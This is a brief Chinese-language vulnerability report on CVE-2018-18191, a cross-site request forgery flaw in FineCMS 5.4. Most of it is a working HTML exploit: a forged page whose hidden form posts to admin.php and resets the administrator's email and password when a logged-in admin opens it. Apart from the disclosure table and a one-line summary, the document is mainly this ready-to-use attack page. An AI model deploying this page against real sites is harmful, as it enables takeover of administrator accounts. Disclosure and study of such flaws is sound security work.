 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|Finecms_v5.4存在CSRF漏洞可修改管理员账户密码|2018-10-07|踏月留香|[http://www.finecms.net/](http://www.finecms.net/) | [http://down.chinaz.com/soft/32596.htm](http://down.chinaz.com/soft/32596.htm) |5.4| [CVE-2018-18191](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-18191)|  

#### 漏洞概述  

> 恶意攻击者可以精心伪造一个html页面诱骗已登录的管理用户点击，从而更改管理员账户密码。   

### POC实现代码如下：  

> exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/admin.php?c=member&m=edit&uid=1" method="POST">
      <input type="hidden" name="page" value="0" />
      <input type="hidden" name="member&#91;email&#93;" value="admin&#64;163&#46;com" />
      <input type="hidden" name="member&#91;name&#93;" value="admin" />
      <input type="hidden" name="member&#91;phone&#93;" value="18888888888" />
      <input type="hidden" name="member&#91;password&#93;" value="888888" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
